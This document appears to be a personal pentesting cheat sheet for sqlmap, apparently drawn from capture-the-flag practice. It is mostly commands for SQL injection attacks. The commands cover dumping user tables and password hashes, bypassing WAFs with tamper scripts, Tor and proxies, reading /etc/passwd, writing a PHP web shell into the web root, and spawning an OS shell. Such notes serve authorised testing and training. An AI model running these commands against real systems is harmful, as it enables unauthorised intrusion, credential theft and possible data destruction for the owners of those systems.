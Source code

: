 Main
```bash
sqlmap ... --batch  --level=5 --risk=3 --technique=BEU
sqlmap ... --batch  --level=5 --risk=3 --technique=BEU --privilege
sqlmap ... --batch  --level=5 --risk=3 --technique=BEU --os-shell
sqlmap ... --batch  --level=5 --risk=3 --technique=BEU --dbs
sqlmap ... --batch  --level=5 --risk=3 --technique=BEU -D testDB --tables
```
Advanced help
```shell
sqlmap -hh
sqlmap --parse-errors
sqlmap -t /tmp/traffic     <--Log traffic content/each request
sqlmap -v 6                <--Verbose mode 6 see requests.. 3 see payloads
sqlmap --proxy             <--Use a proxy like Burp to replay requests
```
### SQLMap Basic Attacks

> [!NOTE] NOTE
> It's always good to randomize the agent every time with `--random-agent`

Websocket + JSON testing
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id":"123"}' --batch
```

Batch test (`-u` for GET `--data` for POST)
```shell
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1&user=test'--batch
sqlmap "http://www.example.com/vuln.php" --data 'id=1*&user=test'--batch
```

> [!NOTE] Note
> Using `Copy as cURL` within firefox is the best way to attack a specific target
> Having the * beside a data parameter tells SQLMap to focus on it

Using HTTP Request from Burp
```shell
sqlmap -r req.txt
```
Other switches: cookies, headers, user agents, referer
```shell
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'

sqlmap --user-agent="..."
sqlmap ... --random-agent
sqlmap ... --mobile

sqlmap --referer='127.0.0.1'
sqlmap --method PUT
```
Inject into header values
```shell
sqlmap ... --cookie="id=1*"
```
### Tuning
Increase  amount of payloads and risk of DoS or loss of data
```shell
sqlmap ... --level=5 --risk=3
sqlmap ... --prefix="%'))" --suffix="-- -"
sqlmap ... --prefix='`)'
```

> [!NOTE] NOTE
>  in special cases of SQLi vulnerabilities, where usage of OR payloads is a must (e.g., in case of login pages), we may have to raise the risk level ourselves.
>  This is because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements (although less commonly) are actively modifying the database content (e.g. DELETE or UPDATE)

Specify detection method
```shell
sqlmap ... --code=200          <-- ex: HTTP code 200 TRUE 500 FALSE
sqlmap ... --titles            <-- difference in detection is in the HTML title
sqlmap ... --string=success    <-- "success" is shown if TRUE and not if FALSE
sqlmap ... --technique=BEU     <-- Only do boolean blind,error and UNION payloads
sqlmap ... --union-cols=5      <-- Specify amount of columns for Union based
```

> [!NOTE] IMPORTANT
> Sometimes SQLMap can't find everything on it's own. It's important to tune and tweak it by adding different `prefixes` and even specifying the amount of `columns` if you think you know the amount

### Database Enumeration
Banner, current user, database and is database Admin
```shell
sqlmap ...  --banner --current-user --current-db --is-dba --threads 10 
```
List databases, tables, table contents, specific table rows (start at row 3 stop at 10)
```shell
sqlmap ... --dbs --threads 10 
sqlmap ... -D testDB --tables --threads 10 
sqlmap ... -D testdb -T users --dump --threads 10 
sqlmap ... -D testdb -T users -C username,password --dump --threads 10 
sqlmap ... -D testdb -T users -C username,password --dump --start=3 --stop=10
```
Conditional enumeration
```shell
sqlmap ... -D testdb -T users --dump --where="username LIKE 'admin%'"
```
Dump all tables and databases
```shell
sqlmap ... --dump --threads 10 
sqlmap ... --dump-all
sqlmap ... --dump-all --exclude-sysdbs
```
### Advanced Database Enumeration
Retrieve the structure of all of the tables to have a complete overview of the database architecture
```shell 
sqlmap ... --schema
```
Search for table and column name in all databases (uses `LIKE`) - DO FOR ALL DBs
```shell
sqlmap ... --search -T user
sqlmap ... --search -C password
```
Enumerate system tables for passwords
```shell
sqlmap ... --passwords
```
### Bypass Web App Protections
Bypass CSRF by specifying the token name & contents. **CHECK FOR ANY TOKEN PARAMETERS IN REQUESTS**
```shell
sqlmap ... --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
Unique value bypass. Randomize values of parameters in payloads. **CHECK FOR WHATS BEING RANDOMIZED/CHANGED IN REQUESTS** 
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5
```
Calculated Parameter bypass. Used when a web application expects a proper parameter value to be calculated based on some other parameter value(s).Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. Python code needed injunction with `--eval`
```shell 
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5
```
Proxies and Tor
```shell
sqlmap ... --proxy="socks4://177.39.187.70:33283"
sqlmap ... --proxy-file=/opt/proxies.txt
sqlmap ... --tor --check-tor
```
Skip WAF detection to create less noise
```shell
sqlmap ... --skip-waf
```
Tamper scripts are used to bypass WAFs/IPS solutions by obfuscating the payloads
```shell
sqlmap ... --tamper=between,randomcase
sqlmap ... --list-tampers
```
### OS Exploitation
View privileges
```bash
sqlmap ... --privilege
```
Need to be database administrator to preform the following
```shell 
sqlmap ...  --file-read "/etc/passwd"

sqlmap ... --file-write "shell.php" --file-dest "/var/www/html/shell.php"

sqlmap ... --os-shell
sqlmap ... --os-shell --technique=E
```